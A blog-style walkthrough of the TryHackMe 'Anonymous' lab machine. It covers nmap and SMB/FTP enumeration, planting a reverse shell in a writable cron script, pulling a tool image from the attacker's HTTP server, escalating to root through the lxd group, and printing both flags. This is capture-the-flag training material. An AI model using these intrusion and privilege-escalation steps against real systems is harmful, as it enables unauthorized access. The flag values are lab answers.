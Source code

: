```yaml
---
title: TryHackMe - Anonymous Writeup
description: My writeup onAnonymous box.
categories:
 - tryhackme
tags: tryhackme
---
```


Hi all, this machine was fun, i enjoy it!

Also got 8 blood on it! :D

![](https://i.ibb.co/8B4WV1Y/Screenshot-1.png)

You can find the machine there > [Anonymous](https://tryhackme.com/room/anonymous){:target="_blank"}

As always let's start with a nmap scan.

```bash
$ ip=10.10.167.121
$ nmap -sC -sV -oN nmap.txt $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-19 15:24 EEST
Nmap scan report for 10.10.167.121 (10.10.167.121)
Host is up (0.092s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 May 17 21:30 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.175
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Great, we have to enumerate 2 services, FTP & SMB! Let's start with SMB.

Let's check the shares first. Sadly `smbmap` didnt work for some reason.

```bash
$ smbmap -H $ip
[!] Authentication error on 10.10.167.121
```

We can use `smbclient` tho.

```bash
$ smbclient -L //$ip -U ""
Enter WORKGROUP\'s password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
```

`pics` share seems interesting, let's connect.

```bash
$ smbclient //$ip/pics -U ""
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 14:11:34 2020
  ..                                  D        0  Thu May 14 04:59:10 2020
  corgo2.jpg                          N    42663  Tue May 12 03:43:42 2020
  puppos.jpeg                         N   265188  Tue May 12 03:43:42 2020

		20508240 blocks of size 1024. 13152580 blocks available
smb: \> 
```

There are 2 photos, i wasted like 1hour on them for stego but nothing, dead end haha. Let's move on to FTP.

We have FTP Anonymous,let's connect.

```bash
$ ftp $ip
Connected to 10.10.167.121.
220 NamelessOne's FTP Server!
Name (10.10.167.121:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 .
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 ..
-rwxr-xrwx    1 1000     1000          314 May 14 14:52 clean.sh
-rw-rw-r--    1 1000     1000          215 May 19 12:35 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
226 Directory send OK.
ftp> 
```

This seems like a cron job, we can edit `clean.sh` file and add our reverse shell in! We can do that by using `GNOME Nautilus`

![](https://i.ibb.co/qxQ3ptb/Screenshot-2.png)

![](https://i.ibb.co/JHq3DXt/Screenshot-3.png)

![](https://i.ibb.co/WD1zX9L/Screenshot-4.png)

![](https://i.ibb.co/vXCZb8v/Screenshot-5.png)

Bingo! We have shell!

```bash
$ nc -lvp 5555
listening on [any] 5555 ...
connect to [$your_ip] from 10.10.167.121 [10.10.167.121] 43770
namelessone@anonymous:~$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
namelessone@anonymous:~$ whoami
whoami
namelessone
namelessone@anonymous:~$ 
```

Now, privesc is pretty easy, we have to exploit `lxd` group.

```bash
namelessone@anonymous:~$ groups
groups
namelessone adm cdrom sudo dip plugdev lxd
```

lxd = system container manager 

First we have to build the `lxd alpine builder` on our machine and then wget to target box.

```bash
$ git clone  https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Receiving objects: 100% (27/27), 16.00 KiB | 780.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.
$ cd lxd-alpine-builder/
$ ./build-alpine
... junk data ...
(1/1) Installing libcrypto1.1 (1.1.1g-r0)
OK: 8 MiB in 19 packages
```

Now we have to `wget` the output `.tar.gz` file to target's box.

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
namelessone@anonymous:/tmp$ wget $your_ip/alpine-v3.11-x86_64-20200519_1600.tar.gz
namelessone@anonymous:/tmp$ ls
alpine-v3.11-x86_64-20200519_1600.tar.gz
```

Now follow my steps :

```bash
namelessone@anonymous:/tmp$ lxc image import $your_tar_name.tar.gz --alias myimage
namelessone@anonymous:/tmp$ lxd init (yes to all)
namelessone@anonymous:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
namelessone@anonymous:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
namelessone@anonymous:/tmp$ lxc start ignite
lxc start ignite
namelessone@anonymous:/tmp$ lxc exec ignite /bin/sh
lxc exec ignite /bin/sh
~ # whoami; id
whoami; id
root
uid=0(root) gid=0(root)
```

Let's read the flags now, for `root` we have to go to mount directory.

```bash
/mnt/root/root # cat root.txt
cat root.txt
4d930091c31a622a7ed10f27999af363
```

For user's flag, we have to go back to normal shell.

```bash
namelessone@anonymous:~$ cat user.txt
cat user.txt
90d6f992585815ff991e68748c414740
```

That's it, lot of fun! See you!
